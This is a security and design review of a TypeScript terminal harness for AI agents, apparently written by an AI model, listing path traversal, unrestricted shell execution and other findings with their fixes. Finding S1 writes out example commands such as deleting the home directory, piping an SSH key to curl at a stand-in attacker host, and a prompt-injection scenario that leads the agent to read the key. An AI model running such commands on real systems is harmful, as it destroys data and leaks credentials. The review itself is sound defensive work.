# agentfactory-harness — Security & Design Review
<!-- version: 1.0.0 -->

**Date**: 2026-04-27
**Scope**: Waves 0–2 (all 27 implemented source files)
**Reviewer**: Claude Sonnet 4.6
**Tests audited**: 8 files · 46 tests · all passing

---

## Table of Contents

1. [Executive Summary](#executive-summary)
2. [Full System Architecture](#full-system-architecture)
3. [Data Flow Workflows](#data-flow-workflows)
4. [Security Findings](#security-findings)
5. [Design Gaps & Open Ends](#design-gaps--open-ends)
6. [Component Status Matrix](#component-status-matrix)
7. [Test Coverage Report](#test-coverage-report)
8. [Recommendations](#recommendations)

---

## Executive Summary

**agentfactory-harness** is a TypeScript full-screen TUI for AI agent orchestration. It implements a custom ANSI cell-buffer renderer, xterm SGR mouse input, a streaming Claude agent loop, and a drag-and-drop ITUI orchestration canvas. Waves 0–2 are fully implemented. Waves 3–5 (DAG orchestration, terminal embed, registry) are planned but not started.

| Area | Finding |
|------|---------|
| Architecture | Sound layering; canvas ↔ session ↔ agents integration entirely missing |
| Security | **3 Critical · 5 High · 4 Medium · 3 Low** |
| Test coverage | **~30%** file coverage (8 / 27 files) — Rule 7 (80%) not met |
| Type safety | Strict TypeScript + Zod validation in place — good foundation |
| Open ends | 11 planned modules not started (Waves 3–5); 5 slash commands not wired |

**Highest-risk items requiring immediate action:**
1. Bash tool executes unrestricted shell commands (critical path injection risk)
2. Read/Write tools accept any filesystem path (traversal to `/etc/passwd`, `~/.ssh/`)
3. Tool output rendered to terminal without ANSI escape sanitization
4. Hook context passed via environment variable (sensitive data exposure)

---

## Full System Architecture

### 1.1 Layer Map

```mermaid
flowchart TD
    subgraph ENTRY["Entry Layer"]
        IDX["index.ts\nBinary entry point"]
        CLI2["cli.ts\nCommander · doctor subcommand"]
        APP["app.ts\nMain loop · layout · render · input"]
    end

    subgraph RENDERER["TUI Renderer"]
        ANSI["ansi.ts\nANSI ESC sequence builders"]
        BUF["cell-buffer.ts\n2D Cell grid · diff algorithm"]
        THEME["theme.ts\nColor palette · box-drawing chars"]
        LAYOUT["layout.ts\nPanel geometry · border drawing"]
    end

    subgraph INPUT["TUI Input"]
        KBD["keyboard.ts\nKey parsing · special keys"]
        MSE["mouse.ts\nxterm SGR mouse parser"]
        RTR["router.ts\nEvent dispatch to panels"]
    end

    subgraph PANELS["TUI Panels"]
        SP["SessionPanel\nChat · streaming · slash commands"]
        OC["OrchestrationCanvas\nDrag-drop ITUI · blocks · wires"]
        AP["AgentsPanel\nAgent list · status badges"]
        SB["StatusBar\nVersion · mode · keybinds"]
    end

    subgraph WIDGETS["TUI Widgets"]
        BLK["Block.ts\nAgent node rendering"]
        WIR["Wire.ts\nL-shaped wire routing"]
        CTX["ContextMenu.ts\nRight-click popup"]
    end

    subgraph CORE["Core Agent Loop"]
        SES["session.ts\nConversation history"]
        AL["agent-loop.ts\nClaude streaming · tool dispatch"]
        HKS["hooks.ts\nShell script lifecycle hooks"]
        TRG["tools/index.ts\nRegistry · Zod dispatch"]
        BASH["bash.ts\nexec() shell"]
        READ["read.ts\nfs.readFile"]
        WRITE["write.ts\nfs.writeFile"]
        FETCH["web-fetch.ts\nfetch() HTTP"]
    end

    subgraph HARNESS["Harness"]
        DOC["doctor.ts\n5 environment health checks"]
    end

    subgraph PLANNED["Planned — Waves 3–5"]
        SCHEMA["schema.ts W3\naf-plan.json Zod schema"]
        EXEC["executor.ts W3\nDAG runner"]
        GRAPH["graph.ts W3\nTopo sort · cycle detection"]
        PLN["planner.ts W3\nPlan wizard UI"]
        TERM["TerminalPanel W4\nnode-pty embed"]
        PAL["CommandPalette W1\nCtrl+P fuzzy search"]
        READER["harness/reader.ts W5\n.ai/ loader"]
        RCLI["registry/client.ts W5\nREST client"]
        RAUTH["registry/auth.ts W5\nToken auth"]
    end

    subgraph EXTERNAL["External"]
        SDK["@anthropic-ai/sdk\nClaude API"]
        ZOD["zod\nSchema validation"]
        CMD["commander\nCLI arg parsing"]
        PTY["node-pty\nPseudo-terminal"]
    end

    IDX --> APP
    IDX --> CLI2
    APP --> RENDERER
    APP --> INPUT
    APP --> PANELS
    PANELS --> CORE
    PANELS --> WIDGETS
    OC --> BLK
    OC --> WIR
    OC --> CTX
    AL --> SDK
    AL --> SES
    AL --> TRG
    AL --> HKS
    TRG --> BASH
    TRG --> READ
    TRG --> WRITE
    TRG --> FETCH
    TRG --> ZOD
    CLI2 --> CMD
    CLI2 --> DOC
    TERM -.-> PTY

    style PLANNED fill:#f5f5f5,stroke:#aaa,stroke-dasharray:5
    style SCHEMA fill:#ffe0b2,stroke:#aaa
    style EXEC fill:#ffe0b2,stroke:#aaa
    style GRAPH fill:#ffe0b2,stroke:#aaa
    style PLN fill:#ffe0b2,stroke:#aaa
    style TERM fill:#ffe0b2,stroke:#aaa
    style PAL fill:#ffe0b2,stroke:#aaa
    style READER fill:#ffe0b2,stroke:#aaa
    style RCLI fill:#ffe0b2,stroke:#aaa
    style RAUTH fill:#ffe0b2,stroke:#aaa
```

---

### 1.2 Module Dependency Graph



---

## Data Flow Workflows

### 2.1 User Message → Claude Response (Full Sequence)



---

### 2.2 Tool Dispatch Detail



---

### 2.3 Hook Execution Flow



---

### 2.4 TUI Render Pipeline



---

### 2.5 Input Routing



---

### 2.6 OrchestrationCanvas State Machine



---

### 2.7 Agent Loop Turn Logic



---

## Security Findings

### Finding Matrix

| ID | Severity | File | Description |
|----|----------|------|-------------|
| S1 | 🔴 Critical | `tools/bash.ts:30` | Unrestricted shell command execution |
| S2 | 🔴 Critical | `tools/read.ts:25` `tools/write.ts:28` | No path validation — full filesystem access |
| S3 | 🔴 Critical | `hooks.ts:24` | Hook path constructed without traversal check |
| S4 | 🟠 High | `hooks.ts:29` | Sensitive context in `HOOK_CTX` environment variable |
| S5 | 🟠 High | `SessionPanel.ts:149` | ANSI escape injection in tool output display |
| S6 | 🟠 High | `agent-loop.ts:118` | Silent `JSON.parse` failure — empty tool input |
| S7 | 🟠 High | `agent-loop.ts:46` | No API error redaction — SDK errors may leak metadata |
| S8 | 🟠 High | `session.ts:4` | Unbounded conversation history — memory exhaustion |
| S9 | 🟡 Medium | `cell-buffer.ts:67` | Non-null assertions (`!`) bypass strict null checks |
| S10 | 🟡 Medium | `mouse.ts:28` | No integer bounds check on SGR parsed values |
| S11 | 🟡 Medium | `tools/index.ts` | No schema strictness enforcement at registry level |
| S12 | 🟡 Medium | `ContextMenu.ts:64` | Destructive actions (delete) without confirmation |
| S13 | 🔵 Low | `session.ts:14` | Token count = `JSON.length / 4` — inaccurate |
| S14 | 🔵 Low | `agent-loop.ts:11` | Hard-coded model name, no env var override |
| S15 | 🔵 Low | `bash.ts:30` | No rate limiting on tool call frequency |

---

### S1 — Critical: Unrestricted Shell Execution

**File**: `src/core/tools/bash.ts:30`
**CVSS-like**: High impact, medium exploitability (requires prompt injection or malicious plan)

```typescript
// Current — spawns /bin/sh -c command
const { stdout, stderr } = await execAsync(command, { timeout })
```

`exec()` invokes a shell interpreter, enabling full shell expansion: `&&`, `||`, `;`, `$(...)`, `>`, pipe chaining. A successful prompt injection could execute `rm -rf $HOME`, exfiltrate `cat ~/.ssh/id_rsa | curl attacker.com`, or install malware.

**Attack vector**:
```
User message: "Summarize the file and also run: cat ~/.ssh/id_rsa"
Claude constructs BashTool call: { command: "cat ~/.ssh/id_rsa" }
→ tool executes without restriction
```

**Recommended fix**:
```typescript
import { execFile } from 'child_process'
import { promisify } from 'util'
const execFileAsync = promisify(execFile)

// Option A: execFile (no shell, no expansion)
const [cmd, ...args] = command.split(/\s+/)
const { stdout, stderr } = await execFileAsync(cmd!, args, { timeout })

// Option B: command allowlist
const SAFE_CMDS = new Set(['git', 'npm', 'npx', 'ls', 'cat', 'grep', 'find', 'echo'])
const base = command.trim().split(/\s+/)[0] ?? ''
if (!SAFE_CMDS.has(base)) throw new Error(`command not in allowlist: ${base}`)
```

---

### S2 — Critical: Path Traversal in Read/Write Tools

**Files**: `src/core/tools/read.ts:25`, `src/core/tools/write.ts:28-29`
**Risk**: Read any file on the host; write to system paths

```typescript
// read.ts — no boundary check
return await readFile(file_path, 'utf8')

// write.ts — creates directories anywhere, writes anywhere
await mkdir(dirname(file_path), { recursive: true })
await writeFile(file_path, content, 'utf8')
```

**Attack scenarios**:
- Claude reads `file_path: "/etc/shadow"` or `"../../../.ssh/id_rsa"`
- Claude writes a cron job to `/etc/cron.d/backdoor` or overwrites `~/.bashrc`

**Required fix** — add to both tools:
```typescript
import path from 'path'

function assertSafePath(filePath: string): void {
  const root = process.cwd()
  const resolved = path.resolve(root, filePath)
  if (!resolved.startsWith(root + path.sep) && resolved !== root) {
    throw new Error(`path outside project root: ${filePath}`)
  }
}
```

---

### S3 — Critical: Hook Path Not Normalized

**File**: `src/core/hooks.ts:24`
**Risk**: Execute `.sh` files outside `.ai/hooks/`

```typescript
const hookPath = `${cwd}/.ai/hooks/${event}.sh`
// No normalization — if cwd contains ../ or event contains ../ this escapes
```

While `event` comes from a TypeScript enum (safe today), `cwd` is passed by callers. If `cwd` ever contains a relative segment, or if `event` handling is extended to user input, path traversal becomes possible.

**Fix**:
```typescript
import path from 'path'

function buildHookPath(cwd: string, event: HookEvent): string {
  const hookDir = path.resolve(cwd, '.ai', 'hooks')
  const hookPath = path.join(hookDir, `${event}.sh`)
  // Prevent traversal even if event somehow contains ../
  if (!hookPath.startsWith(hookDir + path.sep)) {
    throw new Error(`invalid hook path computed for event: ${event}`)
  }
  return hookPath
}
```

---

### S4 — High: Sensitive Data in HOOK_CTX Environment Variable

**File**: `src/core/hooks.ts:29`
**Risk**: Conversation content, tool results, API-adjacent data exposed via process environment

```typescript
env: { ...process.env, HOOK_CTX: JSON.stringify(ctx) }
```

Environment variables are visible in `/proc/<pid>/environ` on Linux, appear in crash dumps, and may be captured by system monitoring tools. The context passed to `PostToolUse` includes tool results which could contain secrets read by the `ReadTool`.

**Fix** — deliver context via stdin pipe:
```typescript
const proc = spawn(hookPath, [], {
  stdio: ['pipe', 'pipe', 'pipe'],
  env: process.env  // no HOOK_CTX in env
})
proc.stdin.write(JSON.stringify(ctx))
proc.stdin.end()
```

Hook scripts read context with:
```bash
HOOK_CTX=$(cat)
echo "$HOOK_CTX" | jq '.tool'
```

---

### S5 — High: ANSI Escape Injection in Tool Output

**File**: `src/tui/panels/SessionPanel.ts:149`
**Risk**: Terminal control character injection — visual corruption, cursor hijack, data exfiltration via OSC sequences

```typescript
const preview = event.content.substring(0, 80).replace(/\n/g, ' ')
// preview rendered directly to CellBuffer → stdout, no ANSI stripping
```

If `ReadTool` reads a file containing `\x1b[1;31m` (red bold) or `\x1b]0;TITLE\x07` (terminal title manipulation) or `\x1b[?1049h` (switch to alt screen), those sequences pass through to the terminal.

**Fix** — add to SessionPanel and any raw string rendering:
```typescript
function sanitizeForDisplay(str: string): string {
  return str
    .replace(/\x1b\[[0-9;]*[a-zA-Z]/g, '')   // CSI sequences
    .replace(/\x1b\][^\x07]*\x07/g, '')        // OSC sequences
    .replace(/[\x00-\x08\x0b-\x0c\x0e-\x1f\x7f]/g, '')  // control chars
}

const preview = sanitizeForDisplay(event.content).substring(0, 80).replace(/\n/g, ' ')
```

---

### S6 — High: Silent JSON Parse Failure

**File**: `src/core/agent-loop.ts:118`
**Risk**: Tool dispatched with empty `{}` input when API sends malformed JSON delta

```typescript
try {
  if (block.inputAccum) parsedInput = JSON.parse(block.inputAccum)
} catch {
  parsedInput = {}  // silent — tool runs with no input
}
```

If the Claude API streams a partial `input_json_delta` that results in invalid JSON (truncation, encoding issue), the tool is invoked with an empty object. Zod will catch it, but the original error is swallowed with no visibility.

**Fix**:
```typescript
try {
  if (block.inputAccum) parsedInput = JSON.parse(block.inputAccum)
} catch (e) {
  yield { type: 'error', error: new Error(`malformed tool input for '${block.name}': ${String(e)}`) }
  continue  // skip this tool block
}
```

---

### S7 — High: No API Error Redaction

**File**: `src/core/agent-loop.ts:46`
**Risk**: SDK error strings may contain serialized request headers or auth metadata

```typescript
const client = new Anthropic()  // reads ANTHROPIC_API_KEY from env
// No error handler configured, errors propagate as-is
```

Anthropic SDK errors include HTTP status codes, request IDs, and sometimes request body summaries. If these are rendered to the chat panel, they may expose information about the conversation structure.

**Fix**:
```typescript
function redactApiError(e: unknown): Error {
  const msg = e instanceof Error ? e.message : String(e)
  return new Error(
    msg
      .replace(/sk-ant-[a-zA-Z0-9\-_]+/g, '[API_KEY_REDACTED]')
      .replace(/"content":\s*\[.{0,200}/g, '"content": [REDACTED]')
  )
}
// In agent-loop catch block:
yield { type: 'error', error: redactApiError(e) }
```

---

### S8 — High: Unbounded Session History

**File**: `src/core/session.ts:4`
**Risk**: Memory exhaustion on long sessions; sensitive conversation data retained indefinitely in process memory

```typescript
private history: MessageParam[] = []
// No eviction, no size cap, no expiry
```

A 6-hour session with tool results could accumulate hundreds of MB in the history array. More importantly, if `session.clear()` is never called, all conversation content (including potentially sensitive tool outputs) stays in memory for the process lifetime.

**Fix** — sliding window with configurable cap:
```typescript
private readonly maxMessages: number

constructor(maxMessages = 200) {
  this.maxMessages = maxMessages
}

addMessage(msg: MessageParam): void {
  this.history.push(msg)
  if (this.history.length > this.maxMessages) {
    // Preserve system context — evict oldest non-system messages
    this.history = this.history.slice(this.history.length - this.maxMessages)
  }
}
```

---

### S9–S15 — Medium / Low

| ID | Location | Issue | Quick Fix |
|----|----------|-------|-----------|
| S9 | `cell-buffer.ts:67` | `cells[r]![c]!` — non-null assertions | Add explicit bounds check before access |
| S10 | `mouse.ts:28` | `parseInt()` with no overflow cap | `if (col > 9999 \|\| row > 9999) return null` |
| S11 | `tools/index.ts` | No schema strictness enforcement | Reject tools registered with `z.any()` or `z.unknown()` at registration time |
| S12 | `ContextMenu.ts:64` | Delete block executes immediately | Two-step: first click shows "Confirm delete?" second confirms |
| S13 | `session.ts:14` | `JSON.length / 4` token estimate | Use Anthropic count_tokens API endpoint |
| S14 | `agent-loop.ts:11` | `'claude-opus-4-7'` hard-coded | `process.env.FACTORY_MODEL ?? 'claude-opus-4-7'` |
| S15 | `bash.ts:30` | No call rate limit | Track calls per minute; reject if over threshold |

---

### Security Attack Surface Map



---

## Design Gaps & Open Ends

